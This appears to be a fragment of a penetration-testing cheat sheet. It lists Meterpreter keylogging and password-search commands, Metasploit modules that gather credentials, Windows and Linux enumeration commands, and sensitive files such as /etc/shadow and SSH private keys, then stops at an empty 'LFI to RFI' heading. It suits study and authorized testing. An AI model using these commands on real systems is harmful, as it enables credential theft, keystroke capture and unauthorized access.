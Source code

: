 meterpreter > search -f *password*  

meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop

post/windows/gather/enum_logged_on_users
post/windows/gather/credentials/winscp

C:\Windows\system32> net users
C:\Windows\system32> net localgroup Administrators

cat .bash_history

netsh advfirewall firewall show rule name=all

# Important Files

## Linux

/etc/passwd
/etc/group
/etc/shadow

/var/spool/cron
/home/user/.ssh/id_rsa

find /etc | grep iptables

## Windows

systeminfo
C:\Windows\SoftwareDistribution\Download
C:\WIndows\WindowsUpdate.log

## 32 bit binaries
C:\Windows\system32
C:\WIndowsSysWow64

## 64 bit binaries
C:\Windows\SysNative

## Share files with win machine (SMB share)

in kali -> `impackert-smbserver example  /home/example/shares`
in win -> `\\ip\example\`

# LFI to RFI

## PHP Sessions
